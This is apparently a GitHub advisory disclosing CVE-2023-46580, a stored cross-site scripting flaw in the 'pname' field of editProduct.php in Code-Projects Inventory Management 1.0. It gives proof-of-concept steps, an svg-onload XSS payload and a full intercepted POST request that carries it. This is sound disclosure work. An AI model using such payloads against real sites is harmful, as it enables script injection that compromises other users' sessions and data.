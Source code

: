 # CVE-2023-46580-Code-Projects-Inventory-Management-1.0-Stored-Cross-Site-Scripting-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://code-projects.org/inventory-management-in-php-with-source-code
# Software Link
+ https://download-media.code-projects.org/2021/05/Inventory_Management_In_PHP_With_Source_Code.zip
# Overview
+ Code-Projects Inventory Management V1.0 is susceptible to a critical security vulnerability involving Stored Cross-Site Scripting (XSS) through 'pname' parameter in the /editProduct.php file. The application fails to adequately sanitize user-supplied data, allowing attackers to inject malicious scripts into the application. This could lead to the execution of arbitrary script code in the browsers of unsuspecting users, potentially compromising their security and privacy within the context of the affected site.
# Vulnerability Details
+ CVE ID: CVE-2023-46580
+ Affected Version: Inventory Management V1.0
+ Vulnerable File: editProduct.php
+ Parameters: pname
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46580
+ https://nvd.nist.gov/vuln/detail/CVE-2023-46580
# Description
+ The parameter pname in the /editProduct.php file of Code-Projects Inventory Management V1.0 are susceptible to Stored Cross-Site Scripting (XSS). This vulnerability arises due to insufficient input validation and sanitation of user-supplied data. An attacker can exploit this weakness by injecting malicious scripts into these parameters, which, when stored on the server, may be executed when other users view the affected user's profile.
# Proof of Concept (PoC) : 
+ Register and login the panel
+ Go to Products --> Edit Product
+ Click Submit
+ Intercept the POST request to editProduct.php via Burp Suite
+ Inject the payload to the vulnerable parameter
+ Payload: `"><svg/onload=alert(document.domain)>`
+ Example request for `pname` parameter
```
POST /Inventory-Management/model/editProduct.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://localhost
Connection: close
Referer: http://localhost/Inventory-Management/model/editProduct.php?id=12
Cookie: PHPSESSID=<some-cookie-value>
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

pname=AloeVera+Gel"><svg/onload=alert(document.domain)>&buy=56&sell=14&id=12&Submit=Submit
```
+ Go to the Products page and trigger the XSS --> http://localhost/Inventory-Management/model/product.php
<img width="1447" alt="image" src="https://github.com/ersinerenler/Code-Projects-Inventory-Management-1.0/assets/113091631/e57d7def-e5b7-425d-a329-33c84090927c">
